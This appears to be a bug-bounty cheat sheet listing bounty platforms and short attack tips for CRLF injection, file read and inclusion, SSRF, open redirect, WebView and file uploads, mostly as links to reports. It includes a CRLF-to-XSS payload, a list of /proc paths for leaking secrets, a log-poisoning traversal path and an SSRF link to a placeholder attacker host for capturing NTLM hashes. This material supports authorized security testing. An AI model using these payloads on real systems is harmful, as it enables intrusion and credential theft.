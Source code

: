 # Platforms

- bugbounty.ru
- https://yandex.ru/bugbounty/index
- https://support.kaspersky.ru/vulnerability/overview/12428?el=12429#block2

# Schemes

- [Attacking Redis db via CR symbols in `git://` link](https://hackerone.com/reports/441090)
- [A tool](https://github.com/tarunkant/Gopherus) to attack different network services via a `gopher://` link

# Vulns

## CRLF Injection

[Session Fixation](https://hackerone.com/reports/15492) via [nginx misconfiguration](http://blog.volema.com/nginx-insecurities.html)

Escalation to XSS: 
```
?name=Bob%0d%0a%0d%0a<script>alert(document.domain)</script>
```

## Local File Read

Read `web.config` file to obtain .NET ViewState's MachineKey and DecryptionKey, which are allow you to do deserialization attacks: https://www.silentgrid.com/blog/local-file-read-to-rce/.

Leak some [juicy OS info](https://www.kernel.org/doc/html/latest/filesystems/proc.html):
- /proc/version - OS Version
- /proc/net/tcp - open TCP ports
- /proc/net/udp - open UDP ports
- /proc/sched_debug - can be used to retrieve running processes
- /proc/mounts - mounted devices
- /proc/[PID]/cmdline - command line that triggered the running process (fuzz pid here)
- /proc/[PID]/environ - environment variables accessible to the process
- /proc/[PID]/cwd - current working directory of the process
- /proc/[PID]/fd/[n] - files opened by the process
- /proc/[PID]/exe - link to the executable file

## Local File Inclusion

Read `../../../../var/log/apache2/access.log` or [same file via proc](https://xen0vas.github.io/Exploiting-the-LFI-vulnerability-using-the-proc-self-stat-method/#) to get RCE via `User-Agent`.

## SSRF

Try `\\attacker.com\test.jpg` links with a running Responder to capture Net-NTLMv2 hashes.

## Open Redirect

Can be escalated when app uses OAuth; redirection can be done using `javascript:` scheme (see https://rdnzx.medium.com/chaining-open-redirect-with-xss-to-account-takeover-36acf218a6d5 and some more payloads for fuzzing in hacktricks).

Redirection is found on reverse proxy and [can move you to internal servises (SSRF)](https://blog.detectify.com/2019/05/16/the-real-impact-of-an-open-redirect/).

## WebView

[RCE via @JavascriptInterface](https://dphoeniixx.medium.com/tiktok-for-android-1-click-rce-240266e78105)

## File upload

Always look for the command injection if you have noticed that your files are edited or converted in some way.

### Image

Basically SVG files can be used to insert arbitary JavaScript code via `script` tag and even entire HTML-markup via the `foreignObject` tag: https://github.com/allanlw/svg-cheatsheet.

If an old version of librsvg is used to convert SVG to PNG, it can cause a [memory leakage](https://hackerone.com/reports/2107680).

### Video

[SSRF-LFR in FFmpeg](https://hackerone.com/reports/1062888)

### XLSX

[XXE](https://hackerone.com/reports/105434)

## Serialization
### PHP

https://habr.com/ru/articles/708384/